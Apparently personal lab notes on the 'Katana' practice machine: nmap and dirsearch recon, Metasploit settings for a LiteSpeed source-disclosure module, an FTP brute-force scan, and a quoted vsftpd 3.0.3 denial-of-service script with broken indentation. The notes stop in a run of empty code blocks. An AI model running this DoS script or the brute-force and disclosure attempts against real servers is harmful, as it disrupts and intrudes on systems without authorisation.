

# Katana

## Enum
```bash
nmap -Pn -sV -sC 192.168.168.83 -oN scans/nmap.initial
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-20 18:06 IST
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 18:07 (0:00:06 remaining)
Nmap scan report for 192.168.168.83
Host is up (0.035s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 89:4f:3a:54:01:f8:dc:b6:6e:e0:78:fc:60:a6:de:35 (RSA)
|   256 dd:ac:cc:4e:43:81:6b:e3:2d:f3:12:a1:3e:4b:a3:22 (ECDSA)
|_  256 cc:e6:25:c0:c6:11:9f:88:f6:c4:26:1e:de:fa:e9:8b (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Katana X
8088/tcp open  http    LiteSpeed httpd
|_http-title: Katana X
|_http-server-header: LiteSpeed
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.62 seconds
```

2 different webservers apache and litespeed 
```bash
curl -I http://192.168.168.83:80
HTTP/1.1 200 OK
Date: Sun, 20 Aug 2023 18:40:04 GMT
Server: Apache/2.4.38 (Debian)
Last-Modified: Mon, 11 May 2020 16:25:07 GMT
ETag: "28f-5a561ca401471"
Accept-Ranges: bytes
Content-Length: 655
Vary: Accept-Encoding
Content-Type: text/html
```

```bash
curl -I http://192.168.168.83:8088
HTTP/1.1 200 OK
Etag: "28f-5eb97c92-c08a6;;;"
Last-Modified: Mon, 11 May 2020 16:25:54 GMT
Content-Type: text/html
Content-Length: 655
Accept-Ranges: bytes
Date: Sun, 20 Aug 2023 18:40:08 GMT
Server: LiteSpeed
Connection: Keep-Alive

```

They're serving exacly the same page it's not a redirect
```bash
[blnkn@Kolossus](main %=):~/sec/pg/katana% curl -o file  http://192.168.168.83                   23 ⨯
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   655  100   655    0     0   8010      0 --:--:-- --:--:-- --:--:--  8086
[blnkn@Kolossus](main %=):~/sec/pg/katana% curl -o file2  http://192.168.168.83:8088
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   655  100   655    0     0  11598      0 --:--:-- --:--:-- --:--:-- 11696
[blnkn@Kolossus](main %=):~/sec/pg/katana% ls -lart
total 20
drwxr-xr-x 3 blnkn blnkn 4096 Aug 20 18:06 ..
drwxr-xr-x 2 blnkn blnkn 4096 Aug 20 18:06 scans
-rw-r--r-- 1 blnkn blnkn  655 Aug 20 19:39 file
-rw-r--r-- 1 blnkn blnkn  655 Aug 20 19:39 file2
drwxr-xr-x 3 blnkn blnkn 4096 Aug 20 19:39 .
[blnkn@Kolossus](main %=):~/sec/pg/katana% md5sum file
6fbf73bc3d44a2fe3581fbf20c569bf6  file
[blnkn@Kolossus](main %=):~/sec/pg/katana% md5sum file2
6fbf73bc3d44a2fe3581fbf20c569bf6  file2
```

LiteSpeed is not super common, let's see if we can find something about it online

Apparently LiteSpeed before version 4.0.15 will return the source code of any pages as long as we append a NULL byte and .txt at the end of the path.  

There's this Nessus [plugin](https://vulners.com/nessus/LITESPEED_POISON_NULL_BYTE.NASL)   

[nasl](https://en.wikipedia.org/wiki/Nessus_Attack_Scripting_Language) is the Nessus Attack Scripting Language  

There's even a msf-framework [module](https://www.rapid7.com/db/modules/auxiliary/scanner/http/litespeed_source_disclosure/) for it

But we're still not sure of the version that's running, and the nmap script doen't seem to find anything interesting
```bash
nmap -p8088 --script http-litespeed-sourcecode-download 192.168.168.83
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-20 20:09 IST
Nmap scan report for 192.168.168.83
Host is up (0.039s latency).

PORT     STATE SERVICE
8088/tcp open  radan-http

Nmap done: 1 IP address (1 host up) scanned in 0.24 seconds
```


Attempting to fuzz to find paths where we could trigger that exploit
```bash
dirsearch -r -u http://192.168.168.83:8088

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/blnkn/.dirsearch/reports/192.168.168.83-8088/_23-08-20_20-03-41.txt

Error Log: /home/blnkn/.dirsearch/logs/errors-23-08-20_20-03-41.log


Target: http://192.168.168.83:8088/

[20:03:41] Starting:
[20:03:50] 301 -    1KB - /cgi-bin  ->  http://192.168.168.83:8088/cgi-bin/     (Added to queue)
[20:03:51] 301 -    1KB - /css  ->  http://192.168.168.83:8088/css/     (Added to queue)
[20:03:52] 301 -    1KB - /docs  ->  http://192.168.168.83:8088/docs/     (Added to queue)
[20:03:52] 200 -    5KB - /docs/
[20:03:54] 301 -    1KB - /img  ->  http://192.168.168.83:8088/img/     (Added to queue)
[20:03:54] 200 -  655B  - /index.html
[20:03:58] 200 -   50KB - /phpinfo.php
[20:03:59] 401 -    1KB - /protected/data/     (Added to queue)
[20:03:59] 401 -    1KB - /protected/runtime/     (Added to queue)
[20:04:03] 200 -    6KB - /upload.html
[20:04:03] 200 -    2KB - /upload.php
[20:04:05] Starting: cgi-bin/
[20:04:31] Starting: css/
[20:04:54] Starting: docs/
[20:04:59] 200 -    7KB - /docs/admin.html
[20:05:04] 200 -   10KB - /docs/config.html
[20:05:05] 301 -    1KB - /docs/css  ->  http://192.168.168.83:8088/docs/css/     (Added to queue)
[20:05:07] 301 -    1KB - /docs/img  ->  http://192.168.168.83:8088/docs/img/     (Added to queue)
[20:05:08] 200 -    5KB - /docs/index.html
[20:05:08] 200 -   10KB - /docs/install.html
[20:05:18] Starting: img/
[20:05:41] Starting: protected/data/
[20:06:15] Starting: protected/runtime/
[20:06:45] Starting: docs/css/
[20:07:09] Starting: docs/img/

Task Completed
```

According to the docs that would be version 1.5  
  

The msf module works but we just get html out, the same as if we just curled it without the null byte
```bash
msf6 auxiliary(scanner/http/litespeed_source_disclosure) > set PATH_SAVE ./
PATH_SAVE => ./
msf6 auxiliary(scanner/http/litespeed_source_disclosure) > set RHOST 192.168.168.83
RHOST => 192.168.168.83
msf6 auxiliary(scanner/http/litespeed_source_disclosure) > set RPORT 8088
RPORT => 8088
msf6 auxiliary(scanner/http/litespeed_source_disclosure) > set URI /upload.php
URI => /upload.php
msf6 auxiliary(scanner/http/litespeed_source_disclosure) > show options

Module options (auxiliary/scanner/http/litespeed_source_disclosure):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PATH_SAVE  ./               yes       The path to save the downloaded source code
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...
                                         ]
   RHOSTS     192.168.168.83   yes       The target host(s), see https://docs.metasploit.com/docs/us
                                         ing-metasploit/basics/using-metasploit.html
   RPORT      8088             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   THREADS    1                yes       The number of concurrent threads (max one per host)
   URI        /upload.php      yes       Specify the path to download the file (ex: admin.php)
   VHOST                       no        HTTP server virtual host


View the full module info with the info, or info -d command.
```

I'm actually running Nessus to see if it will find it. And in the meantime, checking ftp
```bash
sudo nmap -sV -p21 -sC -A 192.168.168.83
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-20 20:40 IST
Nmap scan report for 192.168.168.83
Host is up (0.031s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (87%), Linux 5.0 - 5.4 (87%), Linux 2.6.32 (87%), Linux 2.6.32 or 3.10 (87%), Synology DiskStation Manager 5.1 (86%), Linux 4.9 (86%), Linux 5.0 (86%), Linux 5.0 - 5.5 (86%), Linux 2.6.39 (86%), Linux 3.10 - 3.12 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Unix

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   29.97 ms 192.168.45.1
2   29.91 ms 192.168.45.254
3   31.86 ms 192.168.251.1
4   31.98 ms 192.168.168.83

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.65 seconds
```

```bash
nc 192.168.168.83 21
220 (vsFTPd 3.0.3)
```
```bash
nmap --script ftp-* -p 21
192.168.168.83
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-20 20:45 IST
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 38.89% done; ETC: 20:45 (0:00:06 remaining)
Stats: 0:01:13 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 27.59% done; ETC: 20:50 (0:03:14 remaining)
Stats: 0:01:16 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 27.59% done; ETC: 20:50 (0:03:22 remaining)
Stats: 0:07:12 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 35.48% done; ETC: 21:05 (0:13:07 remaining)
Stats: 0:08:31 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 34.38% done; ETC: 21:10 (0:16:17 remaining)
NSE: [ftp-brute] usernames: Time limit 10m00s exceeded.
NSE: [ftp-brute] usernames: Time limit 10m00s exceeded.
NSE: [ftp-brute] passwords: Time limit 10m00s exceeded.
Nmap scan report for 192.168.168.83
Host is up (0.041s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-brute:
|   Accounts: No valid accounts found
|_  Statistics: Performed 3543 guesses in 600 seconds, average tps: 5.8

Nmap done: 1 IP address (1 host up) scanned in 599.89 seconds
```

It's 3.0.3 so we have that Denial of Service one, but that doesn't sound very useful
```bash
searchsploit vsftp                            130 ⨯
------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                     |  Path
------------------------------------------------------------------- ---------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption     | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)     | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)     | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                   | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution                          | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)             | unix/remote/17491.rb
vsftpd 3.0.3 - Remote Denial of Service                            | multiple/remote/49719.py
------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Checking it out just for the sake of curiosity
```python
# Exploit Title: vsftpd 3.0.3 - Remote Denial of Service
# Date: 22-03-2021
# Exploit Author: xynmaps
# Vendor Homepage: https://security.appspot.com/vsftpd.html
# Software Link: https://security.appspot.com/downloads/vsftpd-3.0.3.tar.gz
# Version: 3.0.3
# Tested on: Parrot Security OS 5.9.0

#-------------------------------#

#encoding=utf8
#__author__ = XYN/Dump/NSKB3
#VSFTPD Denial of Service exploit by XYN/Dump/NSKB3.
"""
VSFTPD only lets a certain amount of connections to be made to the server, so, by repeatedly making new connections to the server,
you can block other legitimite users from making a connection to the server, if the the connections/ip isn't limited.
(if it's limited, just run this script from different proxies using proxychains, and it will work)
"""

import socket
import sys
import threading
import subprocess
import time

banner = """
._________________.
|     VS-FTPD     |
|      D o S      |
|_________________|
|By XYN/DUMP/NSKB3|
|_|_____________|_|
|_|_|_|_____|_|_|_|
|_|_|_|_|_|_|_|_|_|

"""
usage = "{} <TARGET> <PORT(DEFAULT:21> <MAX_CONNS(DEFAULT:50)>".format(sys.argv[0])

def test(t,p):
    s = socket.socket()
    s.settimeout(10)
    try:
        s.connect((t, p))
        response = s.recv(65535)
        s.close()
        return 0
    except socket.error:
        print("Port {} is not open, please specify a port that is open.".format(p))
        sys.exit()
def attack(targ, po, id):
    try:
        subprocess.Popen("ftp {0} {1}".format(targ, po), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        #print("Worker {} running".format(id))
    except OSError: pass
def main():
    global target, port, start
    print banner
    try:
        target = sys.argv[1]
    except:
        print usage
        sys.exit()
    try:
        port = int(sys.argv[2])
    except:
        port = 21
    try:
        conns = int(sys.argv[3])
    except:
        conns = 50
    print("[!] Testing if {0}:{1} is open".format(target, port))
    test(target, port)
    print("[+] Port {} open, starting attack...".format(port))
    time.sleep(2)
    print("[+] Attack started on {0}:{1}!".format(target, port))
    def loop(target, port, conns):
        global start
        threading.Thread(target=timer).start()
        while 1:
            for i in range(1, conns + 3):
                t = threading.Thread(target=attack, args=(target,port,i,))
                t.start()
                if i > conns + 2:
                    t.join()
                    break
                    loop()

    t = threading.Thread(target=loop, args=(target, port, conns,))
    t.start()

def timer():
        start = time.time()
        while 1:
                if start < time.time() + float(900): pass
                else:
                        subprocess.Popen("pkill ftp", shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                        t = threading.Thread(target=loop, args=(target, port,))
            t.start()
                        break

main()

```


Aaaaah f---king Nessus, won't let me go on without a license, but it did let me go through the whole scan before telling me... Bitch


Nevermind, this is a lot dumber than that
  
```bash
```
```bash
```
```bash
```
```bash
```
```bash
```
```bash
```
```bash
```
```bash
```
```bash
```
```bash
```

